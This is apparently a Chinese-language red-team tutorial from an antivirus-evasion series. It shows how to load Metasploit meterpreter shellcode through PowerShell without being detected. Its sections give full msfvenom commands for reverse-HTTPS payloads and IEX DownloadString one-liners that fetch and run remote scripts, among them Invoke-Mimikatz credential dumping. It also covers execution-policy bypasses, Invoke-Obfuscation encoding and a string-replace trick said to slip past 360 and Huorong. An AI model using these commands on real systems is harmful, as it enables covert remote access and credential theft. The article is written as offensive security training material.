**声明：文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担！**

[toc]


**文章打包下载及相关软件下载：[`https://github.com/TideSec/BypassAntiVirus`](https://github.com/TideSec/BypassAntiVirus)**

---

# 免杀能力一览表



**几点说明：**

**1、上表中标识 √ 说明相应杀毒软件未检测出病毒，也就是代表了Bypass。**

**2、为了更好的对比效果，大部分测试payload均使用msf的`windows/meterperter/reverse_tcp`模块生成。**

**3、由于本机测试时只是安装了360全家桶和火绒，所以默认情况下360和火绒杀毒情况指的是静态+动态查杀。360杀毒版本`5.0.0.8160`(2020.01.01)，火绒版本`5.0.34.16`(2020.01.01)，360安全卫士`12.0.0.2002`(2020.01.01)。**

**4、其他杀软的检测指标是在`virustotal.com`（简称VT）上在线查杀，所以可能只是代表了静态查杀能力，数据仅供参考，不足以作为免杀或杀软查杀能力的判断指标。**

**5、完全不必要苛求一种免杀技术能bypass所有杀软，这样的技术肯定是有的，只是没被公开，一旦公开第二天就能被杀了，其实我们只要能bypass目标主机上的杀软就足够了。**

 ---


# 1 powershell加载shellcode介绍

UNIX系统一直有着功能强大的壳程序（shell），Windows PowerShell的诞生就是要提供功能相当于UNIX系统的命令行壳程序（例如：sh、bash或csh），同时也内置脚本语言以及辅助脚本程序的工具，使命令行用户和脚本编写者可以利用 .NET Framework的强大功能。

powershell具有在硬盘中易绕过，内存中难查杀的特点。一般在后渗透中，攻击者可以在计算机上执行代码时，会下载powershell脚本来执行，ps1脚本文件无需写入到硬盘中，直接可以在内存中执行。

常见的powershell攻击工具有powersploit、nishang、empire、powercat，都提供了非常牛掰的攻击脚本，也正因为powershell的强大，现在被杀软都盯的非常紧了。我们这里只是介绍powershell加载shellcode的几种简单方式，是powershell众多功能中的很小的一个方面。

**Powershell加载shellcode方法比较灵活，shellcode一般都不会被查杀，而如何对Powershell脚本进行静态和行为免杀，就成了免杀的一个关键了。**

之前的文章提到很多工具都可以生成免杀的powershell脚本，比如veil、Venom、SpookFlare、Unicorn等，感兴趣的可以去研究一下他们的原理。

# 2 powershell的几个基础知识

## 2.1 powershell版本问题

powershell只能针对win7之后的系统，之前的win操作系统默认没有安装powershell。不同架构的payload（x86或x64）需要不同版本的powershell来加载，否则会出错。

64位所在目录：`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`

32位所在目录：`C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe`

## 2.2 常见执行方式

先介绍一下powershell的两种常见执行方式：

**1、网络环境直接执行代码**

无文件写入，相对较为隐蔽。下面代码为加载远程脚本`Invoke-Mimikatz.ps1`，执行Mimikatz的DumpCreds功能。

```
powershell "IEX (New-Object Net.WebClient).DownloadString('http://10.211.55.2/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
```
**2、 本地执行**

先把`http://10.211.55.2/Invoke-Mimikatz.ps1`下载到本地

然后导入`powershell Import-Module .\Invoke-Mimikatz.ps1`

使用命令`Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords full"'`

或者`Invoke-Mimikatz -DumpCreds`

## 2.3 执行策略

查看执行策略`powershell Get-ExecutionPolicy`



powershell有六种执行策略：

`Unrestricted` 权限最高，可以不受限制执行任意脚本

`Restricted` 默认策略，不允许任意脚本的执行

`AllSigned` 所有脚本必须经过签名运行

`RemoteSigned` 本地脚本无限制，但是对来自网络的脚本必须经过签名

`Bypass`  没有任何限制和提示

`Undefined` 没有设置脚本的策略

默认情况下，禁止脚本执行。除非管理员更改执行策略。

`powershell Set-ExecutionPolicy Unrestricted`设置执行策略（需要管理员权限）



绕过执行策略执行大概有以下几种：

**1.本地读取然后通过管道符运行**
```
powershell Get-Content 1.ps1 | powershell -NoProfile -
```
**2.远程下载并通过IEX运行脚本**
```
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://47.94.80.129/ps/a.ps1')"
```
**3.Bypass执行策略绕过**
```
powershell -ExecutionPolicy bypass -File ./a.ps1
```
不会显示警告和提示

**4.Unrestricted执行策略标志**
```
powershell -ExecutionPolicy unrestricted -File ./a.ps1
```
当运行一个从网上下载的未签名的脚本时，会给出权限提示

需要解释的是：
```
Invoke-Expression（IEX的别名）：用来把字符串当作命令执行。
WindowStyle Hidden（-w Hidden）：隐藏窗口
Nonlnteractive（-NonI）：非交互模式，PowerShell不为用户提供交互的提示。
NoProfile（-NoP）：PowerShell控制台不加载当前用户的配置文件。
Noexit（-Noe）：执行后不退出Shell。
EncodedCommand（-enc）: 接受base64 encode的字符串编码，避免一些解析问题
```

# 3 powershell加载shellcode

## 3.1 法1：msf-ps1本地执行(VT免杀率18/56)

metasploit可以直接生成ps1脚本的payload,这里就先用msf生成一个原生态的ps1木马试一下，不过这个估计被杀软查杀的比较惨了，稍微加了下`shikata_ga_nai`编码。

用msfvenom生成powershell马，注意这里是`-f psh`。

```
msfvenom -p  windows/x64/meterpreter/reverse_https -e x86/shikata_ga_nai -i 15 -b '\x00' lhost=10.211.55.2 lport=3333 -f psh -o shell.ps1
```
主要这里要用x64架构的payload，不然的话64位的windows会默认调用64的powershell，执行会出错。

将shell.ps1拷贝到测试机器上，本地执行。

```
powershell.exe -ExecutionPolicy Bypass -NoExit -File  shell.ps1
```



msf中可上线


virustotal.com中18/56个报毒，这还只是静态检测的结果。


## 3.2 法2：Invoke-Shellcode加载(VT免杀率0/58)

Invoke-Shellcode是PowerSploit里的一个脚本工具：`https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1`，通过它可以加载自定义的shellcode，而且还支持在powershell中反弹msf，支持http和https协议。

PowerSploit里面还有`Invoke-DllInjection.ps1`可以加载dll文件，`Invoke-ReflectivePEInjection.ps1`可以加载exe文件，我们这里只介绍`Invoke-Shellcode`。想了解更多相关内容的可以移步这里：`https://cn-sec.com/archives/64079.html`

先用msfvenom生成脚本木马
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.211.55.2 LPORT=3333 -f powershell -o shell.ps1
```


在msf中监听`windows/x64/meterpreter/reverse_https`



在测试机器powershell中分别执行下面命令。

```
IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1")

IEX(New-Object Net.WebClient).DownloadString("http://10.211.55.2/shell.ps1")

Invoke-Shellcode -Shellcode ($buf) -Force  运行木马
```


msf可上线



virustotal.com中`shell.ps1`文件的查杀率为0/58，不过这个数据不具有太多参考价值，针对powershell的执行主要还靠行为检测的。




## 3.3 法3：Invoke-Obfuscation对ps1免杀(VT免杀率3/58)

powershell的免杀方法有很多，对代码进行编码是最常见的一种，这里介绍一个专门用来对powershell进行编码免杀的框架Invoke-Obfuscation，这也是著名的APT32组织海莲花常用的一个工具。

Invoke-Obfuscation主要是对ps1脚本进行免杀，所以这里还是需要现有一个ps的payload，我还是用法1的msf生成的payload。

用msfvenom生成powershell马，注意这里是`-f psh`。

```
msfvenom -p  windows/x64/meterpreter/reverse_https -e x86/shikata_ga_nai -i 15 -b '\x00' lhost=10.211.55.2 lport=3333 -f psh -o shell.ps1
```

下载`Invoke-Obfuscation`：`Git clone https://github.com/danielbohannon/Invoke-Obfuscation`

进入Invoke-Obfuscation目录，在powershell中执行`Import-Module .\Invoke-Obfuscation.psd1; Invoke-Obfuscation`



然后执行`set scriptpath  c:\test\shell.ps1`  指定待处理的Ps1文件，或者`set  scriptblock  'echo xss' `指定待处理的ps代码

然后输入`encoding`，再选择编码方式，比如1



然后执行`out c:\test\jiami.ps1`即可输出处理好的ps1文件.

本地执行可上线`powershell.exe -ExecutionPolicy Bypass -NoExit -File  c:\test\jiami.ps1`



virustotal.com中`jiami.ps1`文件3/58个报毒，比法1中原生态的免杀能力大大提高。



## 3.4 法4：ps1行为免杀(VT免杀率0/58)

参考我们团队`诺言`大佬的文章：`https://mp.weixin.qq.com/s/lhg71lVHfp9PY1m8sYXA_A`

虽然ps1代码自身免杀，但在用powershell执行远程下载或执行shellcode时，很容易触发杀软行为规则。



对于IEX这种方便快捷的方式直接运行会被360拦截。可尝试从语法上简单变化。主要是对DownloadString、http做一些处理。

比如利用replace替换函数，可以bypass。

```
powershell -NoExit "$c1='IEX(New-Object Net.WebClient).Downlo';$c2='123(''http://10.211.55.2/shell.ps1'')'.Replace('123','adString');IEX ($c1+$c2)"
```

可过360和火绒



virustotal.com中0/58个报毒




# 4 小结

powershell的功能强悍，各种姿势免杀方式也很多，我这里只是介绍了一点简单的加载shellcode的方式，以及一种静态免杀和一种行为免杀的方式，更多免杀可以结合一些知名成熟的工具自己手工去实现。

由于杀软对powershell的查杀主要靠行为检测，所以本文中使用VT静态查杀来代表查杀率有点不合理，请知悉，勿喷。

# 5 参考资料

攻防演练对抗赛之初识文件钓鱼：`https://mp.weixin.qq.com/s/lhg71lVHfp9PY1m8sYXA_A`

Powershell编码与混淆:`https://www.freebuf.com/sectool/136328.html`

Invoke-Obfuscation混淆ps文件绕过Windows_Defender:`https://www.cnblogs.com/sstfy/p/10440301.html`
  